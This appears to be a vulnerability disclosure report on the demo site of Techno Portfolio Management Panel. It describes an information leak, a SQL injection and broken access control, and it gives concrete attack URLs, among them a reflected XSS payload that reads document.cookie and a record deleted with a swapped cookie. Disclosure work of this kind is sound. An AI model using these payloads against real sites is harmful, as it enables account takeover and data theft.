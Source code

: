 ###Techno Portfolio Management Panel - SQL Injection/XSS/Information leak/Broken Access Control

Well,  when I pentest the official demo site of Techno Portfolio Management Panel.

I found when I login into the backend,  it left some vulnerabilities here.

##### Information leak:

URL: http://dacy.esy.es/eng/panel/search.php?s=1'

For example, we can get some sensitive data here like the absolute path:

/home/u633631124/public_html/eng/panel/search.php

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/info_leak.png)


##### xss:

URL: http://dacy.esy.es/eng/panel/search.php?s=123%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

For example, We can get the site cookie here or do something more evilly. 

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/xss.png)


##### SQL Injection:


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/sqli.png)

URL: http://dacy.esy.es/eng/panel/search.php?s=1

For example, We can get database user or other info here , using some tools or just by hand:

current user:    'u633631124_dacy@10.2.1.20'

##### Broken Access Control

While the feedback option should only be viewed or operated only by the admin user itself , I used the cookie of the demo normal user to replace the cookie of admin, and I removed a feedback successfully by the authority of normal user at last .

Feedback Remove URL:
http://dacy.esy.es/eng/panel/portfolio.php?action=delete&id=x

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/access1.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Techno-Portfolio-Management-Panel/access2.png)

At a word, it's a vulnerability of broken access control.

